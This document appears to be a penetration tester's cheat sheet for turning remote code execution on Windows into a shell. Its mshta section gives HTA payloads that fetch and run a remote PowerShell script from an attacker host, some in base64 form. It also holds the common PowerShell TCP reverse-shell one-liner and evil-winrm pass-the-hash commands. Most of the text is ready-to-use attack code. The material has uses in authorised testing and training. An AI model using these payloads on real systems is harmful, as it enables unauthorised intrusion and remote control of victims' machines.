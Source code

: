 # Getting shells from RCE on Windows

These are just some of the ways

* Sources:
    * [hacktricks.xyz](https://book.hacktricks.xyz/shells/shells/windows)
    * [Arno0x](https://gist.github.com/Arno0x/91388c94313b70a9819088ddf760683f)
    
    
## mshta
* Two types of files to download and execute
    * .hta
    * .sct

* Two types of ways (that I know of) to retrieve
    * http
        * `#!batch mshta http://webserver/payload.hta`
    * smb
        * `#!batch mshta \\webdavserver\folder\payload.hta`

* Script: [Arno0x](https://gist.github.com/Arno0x/91388c94313b70a9819088ddf760683f)
    ```html
    <html>
    <head>
    <HTA:APPLICATION ID="HelloExample">
    <script language="jscript">
            var c = "cmd.exe /c calc.exe"; 
            new ActiveXObject('WScript.Shell').Run(c);
    </script>
    </head>
    <body>
    <script>self.close();</script>
    </body>
    </html>
    ```

* Sample usage to get powershell shell
    1. On your Kali, host (i.e. `#!bash python3 -m http.server`) the two files
        * an hta file, i.e. from: [Arno0x](https://gist.github.com/Arno0x/91388c94313b70a9819088ddf760683f)
            ```html
            <html>
            <head>
            <HTA:APPLICATION ID="HelloExample">
            <script language="jscript">
                    var a = 'powershell -Exec Bypass IEX (New-Object System.Net.WebClient).DownloadString("""http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.ps1""")'
                    var b = 'powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString("""http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.ps1""")"'
                    var c = 'powershell -Exec Bypass -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKABoAHQAdABwADoALwAvADwAWQBPAFUAUgBfAEsAQQBMAEkAXwBJAFAAXwBPAFIAXwBGAEkATABFAEgATwBTAFQASQBOAEcAXwBNAEEAQwBIAEkATgBFAD4AOgA4ADAAMAAwAC8AbQBpAG4AaQAtAHIAZQB2AGUAcgBzAGUALgBwAHMAMQApAA=='
                    new ActiveXObject('WScript.Shell').Run(a);
            </script>
            <!-- -------READ------- -->
            <!--var c is base64 encoded with the value of "IEX(New-Object System.Net.WebClient).DownloadString('http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.ps1')" -->
            <!-- """ does not work in encoding, use proper syntax -->
            <!-- choose between var a,b or c to replace 'x' in ...').Run(x) above
            </head>
            <body>
            <script>self.close();</script>
            </body>
            </html>
            ```
        * [mini-reverse.ps1](https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5) from @staaldraad
            * Modify to change IP Address and port of reverse shell listener
    1. On your Kali, Run your reverse shell listener (`msf exploit/multi/hanlder` or `#!bash nc`)
    1. On the target machine, execute:
        ```batch
        mshta http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.hta
        ```
    
        
## Powershell
* Please see script with examples above (mshta - var a,b and c)
* To be added here and more
* Working shells I have tried:
    * [Mini-Reverse](https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5) by @staaldraad

### One-liners
* Famous powershell one-liner
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<LHOST>',8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
* You can [base64 encode] the block above and execute with this:
    * [Base64 encode in Linux](../Useful_Commands/Linux.html#base64-encode)
    * [Base64 encode in Windows](../Useful_Commands/Windows.html#base64-encode-powershell-commands)
```powershell
powershell -EncodedCommand <Base64_payload>
```

### Fully interactive powershell
* Get fully interactive shell with [ConPtyShell](https://github.com/antonioCoco/ConPtyShell)

### Tools for remote CLI connection
* [Evil-Winrm](https://github.com/Hackplayers/evil-winrm) [^1][^2]
    ```bash
    cd /opt
    git clone https://github.com/S3cur3Th1sSh1t/PowerSharpPack
    git clone https://github.com/Flangvik/SharpCollection
    mkdir ~/Results/evil-winrm
    sudo docker run --rm -ti --name evil-winrm -v /opt/PowerSharpPack/PowerSharpBinaries:/ps1_scripts -v /opt/SharpCollection/NetFramework_4.5_x64:/exe_files -v /home/kali/Results/evil-winrm:/data oscarakaelvis/evil-winrm -i DC01.ACME.LOCAL -u administrator -H 'db3d398badf62934dfa291db9a6ffdc0' -s '/ps1_scripts/' -e '/exe_files/'
    ```
    * Use below if making use of ptt (kerberos auth)
    ```bash
    export KRB5CCNAME=/tmp/administrator.ccache
    bundle exec evil-winrm -s "/opt/PowerSharpPack/PowerSharpBinaries" -e "/opt/Sharp collection/NetFramework_4.5_x64" -i DC01.ACME.LOCAL -r acme.local
    ```
[^1]: [Sharp Collection](https://github.com/Flangvik/SharpCollection)
[^2]: [Power Sharp Pack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack)
